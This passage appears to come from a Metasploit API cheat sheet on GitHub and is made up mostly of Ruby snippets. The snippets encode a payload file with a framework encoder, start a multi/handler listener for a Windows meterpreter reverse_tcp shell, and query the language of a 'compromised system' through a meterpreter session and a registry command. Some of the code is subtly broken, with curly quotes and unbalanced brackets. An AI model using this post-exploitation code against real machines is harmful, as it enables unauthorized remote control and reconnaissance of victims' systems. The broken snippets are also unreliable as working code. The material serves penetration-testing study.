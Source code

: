 - **This sample demonstrates how a file can be encoded using a framework encoder.**

      require ’msf/base’
      $:.unshift(File.join(File.dirname(__FILE__), ’..’, ’..’, ’..’,’lib’))
      if (ARGV.empty?)
        print_warning("Usage: #{File.basename(__FILE__)} encoder_name file_name format")
        return nil
      end

      framework = Msf::Simple::Framework.create
        begin
        # Create the encoder instance.
        mod = framework.encoders.create(ARGV.shift)
        Msf::Simple::Buffer.transform(mod.encode(IO.readlines(ARGV.shift).join), ARGV.shift || ’ruby’
      rescue
        print_error("Error: #{$!}\n\n#{$@.join("\n")}")
      end


- **start a multi handler (local)**

      mul = client.framework.exploits.create("multi/handler")
      mul.datastore['PAYLOAD']   = "windows/meterpreter/reverse_tcp"
      mul.datastore['LHOST']     = rhost
      mul.datastore['LPORT']     = rport
      mul.datastore['EXITFUNC']  = 'process'
      mul.datastore['ExitOnSession'] = false

      mul.exploit_simple(
        'Payload'        => mul.datastore['PAYLOAD'],
        'RunAsJob'       => true
      )
      end

#### [!] [Jump to article index](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/metasploit-RC%5BERB%5D/metasploit-API/my-API-Cheat-sheet.md#metasploit-api-cheat-sheet)

---

<br /><br /><br />

## DISCOVER SYSTEM LANGUAGE

> This will give us the operating system language of the compromised system.<br />

- **Discover system language using msf API**

      output = client.sys.config.sysinfo['System Language']
      print_good("System lang detected: #{output}")

- **Discover system language using cmd_exec()**

      check = cmd_exec("REG QUERY HKLM\System\CurrentControlSet\Control\Nls\Language /v InstallLanguage")
      if check == "0436"
        parse = "af;Afrikaans"
      elsif check == "041c"
        parse = "sq;Albanian"
      else
        print_error("module can not determine system language")
      end
      print_good("system language detected: #{parse}")

